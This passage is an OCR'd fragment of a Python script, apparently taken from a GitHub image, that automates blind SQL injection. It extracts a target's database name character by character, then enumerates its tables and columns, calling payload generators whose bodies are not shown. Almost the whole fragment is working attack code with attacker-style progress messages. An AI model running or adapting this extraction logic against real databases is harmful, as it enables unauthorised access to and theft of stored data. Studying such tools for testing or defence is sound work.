 ```py
                break

        if not found_char:
            consecutive_skips += 1
            if consecutive_skips >= max_consecutive_skips:
                print(f"  [!] Skipped {max_consecutive_skips} positions, ending extraction")
                break

        position += 1
        if position > 100:
            print(f"  [!] Reached max length limit (100)")
            break

        if position > 10 and not value:
            print(f"  [!] No valid characters found in first 10 positions")
            break

    if value:
        elapsed = time.time() - extraction_start
        print(f"  [+] Final value: '{value}' (in {timedelta(seconds=elapsed)})")
        return value
    else:
        print("  [!] No value found")
        return None

def extract_database_name():
    print("\n[+] PHASE 1: Extracting database name")
    return extract_value("database name", generate_db_payload, DB_CHARS)

def extract_tables(database_name):
    tables = []
    table_offset = 0

    print("\n[+] PHASE 2: Extracting tables")
    while True:
        table_name = extract_value(
            f"table at OFFSET {table_offset}",
            generate_table_payload,
            TABLE_COLUMN_CHARS,
            table_offset,
            database_name
        )
        if not table_name:
            if table_offset == 0:
                print("[!] No tables found")
            else:
                print(f"[+] Found {len(tables)} tables")
            break

        tables.append(table_name)
        table_offset += 1
    return tables

def extract_columns(table_name, database_name):
    columns = []
    column_offset = 0

    print(f"\n[+] Extracting columns from table: {table_name}")
    while True:
        column = extract_value(
            f"column at OFFSET {column_offset}",
            generate_column_payload,
            TABLE_COLUMN_CHARS,
```